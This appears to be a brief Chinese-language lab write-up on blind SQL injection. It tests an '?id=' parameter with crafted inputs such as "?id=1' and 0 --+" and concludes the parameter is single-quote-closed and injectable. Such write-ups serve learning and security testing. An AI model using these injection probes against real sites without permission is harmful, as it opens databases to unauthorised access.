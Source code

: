 ![image-20220115103801980](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/image-20220115103801980.png)



尝试多次后发现**无法得到闭合方式和报错位置、报错内容**

——盲注



尝试：

```
?id=1    正常
?id=200000    不正常
?id=1\     不正常
?id=haha   不正常
```

因此可以估计：该数据库需要往里面传入一些不大不小的数字

```
?id=1' --+   正常
?id=1' and 0 --+    不正常
?id=1' and 1 --+   正常
```

得到结论：单引号闭合，且可以注入

```
?id=1' and 1<2 --+   正常
```

可以推出：可以输入一些长语句
